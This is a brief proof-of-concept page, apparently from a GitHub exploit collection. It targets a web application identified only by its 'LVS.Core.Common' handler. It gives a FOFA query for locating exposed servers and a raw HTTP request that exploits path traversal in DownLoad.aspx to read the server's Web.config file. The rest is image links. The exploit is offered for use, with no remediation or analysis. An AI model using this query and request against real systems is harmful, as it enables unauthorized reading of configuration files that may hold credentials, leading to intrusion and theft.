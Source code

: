 # fofa
```plain
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```

# POC
```plain
GET /Business/DownLoad.aspx?p=UploadFile/../Web.Config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727101999286-0fde8920-b45b-4917-a9e9-0d18bd176862.png![image-20240925213341001](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925213341001.png)

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727101982717-eeaf28d9-c7f3-4115-9b34-a3bbebca4e2c.png)

![image-20240925213325011](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925213325011.png)
